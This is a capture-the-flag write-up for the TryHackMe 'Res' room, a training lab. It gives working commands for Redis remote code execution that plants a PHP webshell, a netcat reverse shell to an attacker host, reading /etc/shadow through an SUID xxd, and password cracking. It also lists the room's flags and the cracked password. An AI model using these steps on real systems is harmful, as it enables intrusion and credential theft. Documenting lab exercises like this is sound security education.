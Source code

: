 # Res Room (2025) — Write-up

**Author:** Daniel Demian  
**Room:** [Res (TryHackMe)](https://tryhackme.com/room/res)  
**Difficulty:** Easy 🟢  
**Time to complete:** ~30 minutes

---

## Summary
A compact, beginner-friendly box demonstrating a high-yield workflow: service enumeration → Redis RCE (no auth) → user compromise → SUID-based privilege escalation using `xxd` to read `/etc/shadow`, crack the hash, and escalate to root.

---

## TL;DR
- **Initial access:** Redis RCE (write a PHP webshell into `/var/www/html`)  
- **User flag:** `thm{red1s_rce_w1thout_credent1als}`  
- **Escalation:** SUID `xxd` → read `/etc/shadow` → crack hash → `su vianka` → `sudo su -`  
- **Root flag:** `thm{xxd_pr1v_escalat1on}`

---

## Recon & enumeration

**Command used**
```bash
nmap -p- -sC -sV -T4 {TARGET_IP} -oA scans/full_tcp
```

**Representative Nmap output**
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```

**Quick answers**
- Open ports: **2**  
- DBMS: **Redis**  
- Redis port: **6379**  
- Redis version: **6.0.7**

---

## Initial access — Redis RCE (webshell)
Install `redis-tools` on your attacker host and connect:
```bash
redis-cli -h {TARGET_IP}
```

Inside Redis:
```text
flushall
set pwn "<?php system($_REQUEST['cmd']); ?>"
config set dbfilename webshell.php
config set dir /var/www/html
save
```

Trigger the webshell to get a reverse shell:
```bash
# on attacker
nc -nlvp 1234

# in browser
http://{TARGET_IP}/webshell.php?cmd=nc%20{ATTACKER_IP}%201234%20-e%20/bin/bash
```

Upgrade the shell:
```bash
python3 -c 'import pty, os; pty.spawn("/bin/bash")'
# on local: stty raw -echo; fg
export TERM=xterm-256color
reset
```

User flag:
```bash
cat /home/vianka/user.txt
# thm{red1s_rce_w1thout_credent1als}
```

---

## Post-exploitation & local enumeration
Useful commands:
```bash
id; uname -a; cat /etc/os-release
find / -perm -4000 -type f 2>/dev/null
ls -la /home; ls -la /home/vianka
grep -R --line-number -i "password" /home /etc 2>/dev/null
```

Notable finding: `/usr/bin/xxd` had the SUID bit set — unusual for that utility.

---

## Privilege escalation — `xxd` to read `/etc/shadow`
Dump and reconstruct `/etc/shadow`:
```bash
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r > /tmp/shadow
cat /tmp/shadow | sed -n '1,10p'
```

Identify hash type (prefix):  
- `$6$` = sha512crypt
- `$5$` = sha256crypt
- `$1$` = md5crypt
- `$2y$`/`$2a$` = bcrypt

Transfer files to attacker (example):
```bash
cd /tmp
python3 -m http.server 8000
# on attacker:
wget http://{TARGET_IP}:8000/shadow
wget http://{TARGET_IP}:8000/passwd
```

Merge and crack:
```bash
unshadow passwd shadow > hashes
john --wordlist=/usr/share/wordlists/rockyou.txt --rules hashes
# cracked: beautiful1 (vianka)
```

---

## Final escalation & root
```bash
su - vianka
# password: beautiful1
sudo -l
sudo su -
cat /root/root.txt
# thm{xxd_pr1v_escalat1on}
```

---

## Final thoughts & remediation
- **Don’t expose** management services (Redis) to untrusted networks — require authentication and network ACLs.  
- **Audit SUID binaries** and remove SUID from non-essential tools (`chmod u-s /usr/bin/xxd`).  
- **Enforce strong passwords** and MFA; salted hashes with weak passwords are still crackable.  
- **Practice the basics**: fast nmap + service-specific enumeration + GTFOBins + John/hashcat is a very effective workflow for beginner boxes.

---

## All answers (quick list)
- Open ports: **2**  
- DBMS: **Redis**  
- Redis port: **6379**  
- Redis version: **6.0.7**  
- User flag: `thm{red1s_rce_w1thout_credent1als}`  
- Local user password: `beautiful1`  
- Root flag: `thm{xxd_pr1v_escalat1on}`

---

